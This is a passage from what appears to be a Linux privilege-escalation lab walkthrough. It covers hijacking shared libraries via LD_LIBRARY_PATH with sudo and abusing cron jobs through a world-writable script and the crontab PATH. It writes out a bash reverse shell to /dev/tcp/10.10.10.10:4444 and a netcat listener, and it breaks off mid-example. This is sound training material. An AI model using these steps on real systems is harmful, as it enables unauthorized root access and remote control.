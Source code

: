     sudo LD_LIBRARY_PATH=/tmp apache2

A root shell should spawn. Exit out of the shell. Try renaming `/tmp/libcrypt.so.1` to the name of another library 
used by `apache2` and re-run `apache2` using `sudo` again. Did it work? If not, try to figure out why not, and 
how the `library_path.c` code could be changed to make it work.

Exit out of the root shell before continuing!

## Cron jobs - File permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files 
(crontabs) store the configuration for cron jobs. The system-wide crontab is located at `/etc/crontab`.

View the contents of the system-wide crontab:

    cat /etc/crontab

There should be two cron jobs scheduled to run every minute. One runs `overwrite.sh`, the other runs 
`/usr/local/bin/compress.sh`.

Locate the full path of the `overwrite.sh` file:

    locate overwrite.sh

Note that the file is world-writable:

    ls -l /usr/local/bin/overwrite.sh

Replace the contents of the `overwrite.sh` file with the following after changing the IP address to that of your 
Kali box.

    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

Set up a netcat listener on your Kali box on port `4444` and wait for the cron job to run (should not take longer 
than a minute). A root shell should connect back to your netcat listener.

    nc -nvlp 4444

Exit out of the root shell and remove the reverse shell code before continuing!

## Cron jobs - PATH environment variable

View the contents of the system-wide crontab:

    cat /etc/crontab

Note that the PATH variable starts with `/home/user` which is our user's home directory.
Create a file called `overwrite.sh` in your home directory with the following contents:

    #!/bin/bash
    
